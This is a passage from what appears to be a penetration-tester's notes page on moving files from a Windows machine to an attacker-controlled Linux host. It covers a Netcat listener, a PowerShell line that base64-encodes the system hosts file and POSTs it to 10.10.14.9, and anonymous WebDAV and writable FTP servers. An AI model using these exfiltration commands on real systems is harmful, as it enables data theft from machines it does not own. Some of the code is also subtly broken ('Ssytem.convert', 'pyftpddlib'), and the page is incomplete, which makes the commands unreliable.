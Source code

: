 The second upload method (upload a string) needs Netcat on remote Linux host

```bash
nc -lnvp 8000
```

Now, I can insert a base64 string in the body request and send it to the remote host

```powershell
$b64 = [Ssytem.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.14.9/ -Method POST -Body $b64
```

<figure><img src="../../.gitbook/assets/netcat-linux-upload.png" alt=""><figcaption></figcaption></figure>

When I receive the base64 string on the web server, I can convert it.

```bash
echo 'IyBDb3B5cmlnaHQg...bnRy' | base64 -d -w 0 > hosts
```

## WebDAV

To configure the WebDAV server, I have to install 2 Python modules.

```bash
sudo pip install wsgidav cheroot
```

Then, I run `wsgidav` in the target directory.

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

... _(Need more content)_ ...

## FTP Uploads

I can create a FTP server on my Linux host. The flag `--write` allows clients to upload files.

```bash
sudo python3 -m pyftpddlib --port 21 --write
```

Then, I can upload my file from Windows with Powershell and I have to set the absolute path for the source file.

